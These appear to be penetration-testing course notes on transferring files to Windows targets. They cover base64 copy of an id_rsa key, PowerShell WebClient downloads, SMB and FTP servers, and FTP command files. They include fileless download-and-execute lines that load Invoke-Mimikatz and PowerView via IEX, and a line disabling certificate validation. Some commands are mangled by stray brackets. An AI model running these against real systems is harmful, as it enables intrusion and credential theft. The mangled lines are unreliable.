 # File Transfer

## Windows File Transfer Methods

## **PowerShell Base64 Encode & Decode**

* use `md5sum filename` to get the md5 hash of file.
* then encode the file using `base64` ; `cat id_rsa |base64 -w 0;echo`
* now copy paste this encoded `base64` data into windows, use powershell to decode this `base64` data .
* then check the `md5` hash of this file to that of 1st step.

## **PowerShell Web Downloads** ⭐

System.Net.WebClient class in powershell can be used to download a file over HTTP, HTTP and FTP.

| Method                                                                                                                                                                                                 | Description                                                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                                                                                         |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                                                                                      |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                                                                                                  |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                                                                                               |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                                                                                           |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                                                                                      |
| [https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                                                                                       |

#### **PowerShell DownloadFile Method**

```powershell
PS C:\\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')PS)
C:\\htb> (New-Object Net.WebClient).DownloadFile('<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\\Users\\Public\\Downloads\\PowerView.ps1>')

PS C:\\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')PS 
C:\\htb> (New-Object Net.WebClient).DownloadFileAsync('<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>', 'C:\\Users\\Public\\PowerViewAsync.ps1')
```

#### **PowerShell DownloadString - Fileless Method**

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```jsx
PS C:\\htb> IEX (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>')

or

PS C:\\htb> (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>') | IEX

```

#### **PowerShell Invoke-WebRequest**

```jsx
PS C:\\htb> Invoke-WebRequest <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1> -OutFile PowerView.ps1

```

## Common Errors with PowerShell ⭐

*   There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

    This can be bypassed using the parameter `-UseBasicParsing`.

```jsx
PS C:\\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest <https://raw.githubusercontent.com/PowerShellMafia/P> ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

* Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```powershell
PS C:\\htb> IEX(New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1>')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('<https://raw.githubuserc> ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## **SMB Downloads⭐**

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB.

* create smb server `sudo impacket-smbserver share -smb2support /tmp/smbshare`
* `copy \\\\192.168.220.133\\share\\nc.exe` to copy file from pwnbox to Windows

new version of windows block un authenticated guest access, we can fix this by

* create smb server `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test - password test`
* to copy file from pwnbox to Windows `net use n: \\\\192.168.220.133\\share /user:test test`
  * and then `copy n:\\nc.exe`

## FTP Downloads⭐

* configure ftp server in a our attacker machine using python3 `pyftpdlib` module. `sudo python3 -m pyftpdlib --port 21`
* once configured, we can perform file transfer using Powershell Net.WebClient
  * `PS C:\\htb> (New-Object Net.WebClient).DownloadFile('<ftp://192.168.49.128/file.txt>', 'C:\\Users\\Public\\ftp-file.txt')`

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

```jsx
C:\\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\\htb> echo USER anonymous >> ftpcommand.txt
C:\\htb> echo binary >> ftpcommand.txt
C:\\htb> echo GET file.txt >> ftpcommand.txt
C:\\htb> echo bye >> ftpcommand.txt
C:\\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\\htb>more file.txt
This is a test file
```
